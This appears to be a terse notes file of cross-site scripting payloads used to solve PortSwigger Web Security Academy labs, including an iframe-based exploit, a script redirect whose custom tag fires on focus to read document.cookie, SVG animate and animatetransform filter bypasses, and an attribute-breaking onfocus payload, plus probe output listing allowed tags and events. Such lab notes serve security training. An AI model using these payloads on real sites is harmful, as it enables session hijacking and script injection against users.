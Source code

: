# XSS Labs

## Stored XSS into HTML context with nothing encoded

* Payload
```html
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'> 
```

## Reflected XSS into HTML context with all tags blocked except custom ones
* Payload
```html
<script>location = 'https://ac081f4d1fda91bec1dd414e00810097.web-security-academy.net/?search=%3Cbigb0ss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';</script> 
```

## Reflected XSS with event handlers and href attributes blocked

* Allowed tags
```
[INFO] Allowed tag: a
[INFO] Allowed tag: text
[INFO] Allowed tag: animate
[INFO] Allowed tag: image
[INFO] Allowed tag: svg
[INFO] Allowed tag: title
```

* Payload
```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click Me</text></a>
```

## Reflected XSS with some SVG markup allowed

* Allowed tags
```
[INFO] Allowed event: text
[INFO] Allowed event: animatetransform
[INFO] Allowed event: image
[INFO] Allowed event: svg
[INFO] Allowed event: title
```

* Allowed events
```
[INFO] Allowed event: onbegin
```

* Payload
```html
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

## Reflected XSS into attribute with angle brackets HTML-encoded

* Payload
```html
" autofocus onfocus=alert(1) x="
```

## Stored XSS into anchor href attribute with double quotes HTML-encoded

* Payload (solution)
```html
xss_stored_href_attribute.py
```



